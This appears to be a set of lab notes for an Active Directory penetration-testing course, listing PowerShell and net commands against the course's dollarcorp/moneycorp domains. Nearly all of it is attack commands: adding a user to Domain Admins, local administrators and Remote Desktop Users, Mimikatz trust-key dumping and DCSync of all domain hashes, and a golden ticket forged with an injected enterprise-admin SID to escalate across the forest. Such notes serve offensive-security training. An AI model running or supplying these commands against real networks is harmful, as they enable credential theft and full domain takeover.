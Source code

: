 ### Extras 
```powershell
# Once you are DA add user to DA group
Invoke-Command -ScriptBlock {net group "DOMAIN ADMINS" student21 /domain /add} -ComputerName dcorp-dc.dollarcorp.moneycorp.local

C:> net localgroup Administrators student21 /add 
C:> net localgroup "Remote Desktop Users" student21 /add

https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

```

### Forest Priv Esc
```powershell

Invoke-Mimikatz

Invoke-Mimikatz -Command '"lsadump::trust /patch"'

Invoke-Mimikatz -Command '"lsadump::dcsync /domain:DOLLARCORP.MONEYCORP.LOCAL /all /csv"'

Invoke-Mimikatz -Command '"kerberos::golden /user:student21 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'

gwmi -Class win32_computersystem -ComputerName mcorp-dc.moneycorp.local


```

### Query
```powershell
net localgroup administrators
# add to localgroup admins
net localgroup Administrators student21 /add 

# add to RDP group
net localgroup "Remote Desktop Users" student21 /add

# Add to DA 
net group "DOMAIN ADMINS" student21 /domain /add

# Checking First Degree Object Controls
# if the user is part of a group example sql admins and has generic all access we can do the following
net group "SQLMANAGERS" examAd /domain /add

```